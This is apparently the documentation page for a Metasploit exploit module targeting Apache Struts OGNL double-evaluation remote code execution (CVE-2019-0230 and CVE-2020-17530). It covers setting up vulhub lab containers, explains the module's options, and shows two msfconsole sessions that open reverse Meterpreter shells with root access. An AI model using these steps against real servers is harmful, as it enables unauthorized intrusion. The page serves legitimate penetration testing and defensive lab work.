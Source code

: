 ## Vulnerable Application
The Apache Struts framework, when forced, performs double evaluation of attributes' values assigned to certain tags
attributes such as `id`. It is therefore possible to pass in a value to Struts that will be evaluated again
when a tag's attributes are rendered. With a carefully crafted request, this can lead to Remote Code Execution (RCE).

This vulnerability is application dependant. A server side template must make an affected use of request data to
render an HTML tag attribute.

Vulnerable versions of Apache Struts for both CVEs are provided by [vulhub][1] on GitHub. The setup instructions are identical
for both CVEs, just use the provided files in the correct directory.

1. Use `git` to clone `https://github.com/vulhub/vulhub.git`.
1. Change the current working directory to the one corresponding to the CVE that should be tested. For CVE-2019-0230, use
  `struts2/s2-059` and for CVE-2020-17530, use `struts2/s2-061`.
1. From within the directory, run `docker-compose up -d`
1. (OPTIONAL) Run `docker-compose exec struts2 bash` to obtain an interactive shell within the container. This is useful
  for debugging purposes.

* CVE-2019-0230 was patched in 2.5.20
* CVE-2020-17530 was patched in 2.5.26

### Example Setting Up CVE-2020-17530 / S2-061

```
[smcintyre@localhost ~]$ git clone https://github.com/vulhub/vulhub.git
Cloning into 'vulhub'...
remote: Enumerating objects: 234, done.
remote: Counting objects: 100% (234/234), done.
remote: Compressing objects: 100% (141/141), done.
remote: Total 10171 (delta 86), reused 191 (delta 69), pack-reused 9937
Receiving objects: 100% (10171/10171), 130.98 MiB | 8.36 MiB/s, done.
Resolving deltas: 100% (4014/4014), done.
[smcintyre@localhost ~]$ cd vulhub/struts2/s2-061
[smcintyre@localhost s2-061]$ docker-compose up -d
Creating network "s2-061_default" with the default driver
Pulling struts2 (vulhub/struts2:2.5.25)...
2.5.25: Pulling from vulhub/struts2
756975cb9c7e: Pull complete
d77915b4e630: Pull complete
5f37a0a41b6b: Pull complete
96b2c1e36db5: Pull complete
27a2d52b526e: Pull complete
93a36defce60: Pull complete
9e2014d79b30: Pull complete
ac71d4ce2ce4: Pull complete
a2f817e4badf: Pull complete
62ac51b7362f: Pull complete
e12f6705ebbe: Pull complete
4f4fb700ef54: Pull complete
97ba98138d72: Pull complete
Digest: sha256:eaf49b95f2c178cca77d3c8454f79a4fe4ed4dd9d342c9e9a911e842565217d2
Status: Downloaded newer image for vulhub/struts2:2.5.25
Creating s2-061_struts2_1 ... done
[smcintyre@localhost s2-061]$ docker-compose exec struts2 bash
root@d37b5ab61b87:/usr/src#
```

## Verification Steps

1. Install the vulnerable application, see the "Vulnerable Application" section.
1. Start `msfconsole`
1. Do: `use exploit/multi/http/struts2_multi_eval_ognl`
1. Set `RHOSTS` to the address of the target(s) to exploit.
1. Set `CVE` to the ID of the CVE you wish to run against the target: either `CVE-2020-17530` or `CVE-2019-0230`.
1. Do: `run`

## Options

### NAME
The HTTP query parameter or form data name. This option is closely related to the vulnerability and will likely be
application specific in real world environments. This must be the name of a parameter sent through either a GET or POST
request to the application that is reflected back as an HTML attribute. The module's `check` method will utilize this
value to determine if it can be used to evaluate OGNL expressions.

### CVE
The CVE to try exploit on `RHOSTS`, either `CVE-2020-17530` or `CVE-2019-0230`.

### TARGETURI
The base path to a valid Struts application on the target machine or machines.

### CMDSTAGER::DELAY
Delay between command executions. Set this value higher if the target tends to be slow to respond.

### HttpCookie
An optional cookie to include when making the HTTP request.

## Scenarios

### CVE-2020-17530 From Vulhub

```
msf6 > use exploit/multi/http/struts2_multi_eval_ognl
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/http/struts2_multi_eval_ognl) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf6 exploit(multi/http/struts2_multi_eval_ognl) > set TARGET Linux\ Dropper
TARGET => Linux Dropper
msf6 exploit(multi/http/struts2_multi_eval_ognl) > set PAYLOAD linux/x64/meterpreter/reverse_tcp
PAYLOAD => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/struts2_multi_eval_ognl) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(multi/http/struts2_multi_eval_ognl) > check
[*] 192.168.159.128:8080 - The target appears to be vulnerable.
msf6 exploit(multi/http/struts2_multi_eval_ognl) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp using CVE-2020-17530
[*] Command Stager progress -  44.15% done (362/820 bytes)
[*] Sending stage (3008420 bytes) to 172.18.0.2
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 172.18.0.2:46770) at 2020-12-15 19:43:28 -0500
[*] Command Stager progress - 100.00% done (820/820 bytes)

meterpreter > getuid
Server username: root @ d37b5ab61b87 (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 172.18.0.2
OS           : Debian 10.6 (Linux 5.9.11-100.fc32.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

### CVE-2019-0230 From Vulhub

```
msf6 > use exploit/multi/http/struts2_multi_eval_ognl
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/http/struts2_multi_eval_ognl) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf6 exploit(multi/http/struts2_multi_eval_ognl) > set CVE CVE-2019-0230
CVE => CVE-2019-0230
msf6 exploit(multi/http/struts2_multi_eval_ognl) > set TARGET Linux\ Dropper
TARGET => Linux Dropper
msf6 exploit(multi/http/struts2_multi_eval_ognl) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(multi/http/struts2_multi_eval_ognl) > check
[*] 192.168.159.128:8080 - The target appears to be vulnerable.
msf6 exploit(multi/http/struts2_multi_eval_ognl) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp using CVE-2019-0230
[*] Command Stager progress -  44.15% done (362/820 bytes)
[*] Sending stage (3008420 bytes) to 172.19.0.2
[*] Command Stager progress - 100.00% done (820/820 bytes)
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 172.19.0.2:47884) at 2020-12-15 19:47:10 -0500

meterpreter > getuid
Server username: root @ 91f7855f1eda (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 172.19.0.2
OS           : Debian 10.5 (Linux 5.9.11-100.fc32.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

[1]: https://github.com/vulhub/vulhub
